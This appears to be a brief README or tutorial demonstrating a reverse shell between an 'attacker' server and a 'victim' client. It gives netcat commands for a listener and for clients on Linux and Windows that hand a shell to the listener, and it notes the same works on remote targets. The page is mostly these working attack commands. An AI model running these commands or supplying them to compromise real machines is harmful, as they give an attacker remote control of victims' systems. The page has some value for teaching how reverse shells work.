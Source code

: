 ## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer). This can be done on a remote target but local targets are faster for a demo, result is identical.

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>`


### 3) Connect client to server:
**On Linux/Bash:**

Run `ncat <server-internal-ip> <port> -e /bin/bash`

**On Windows:**

Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
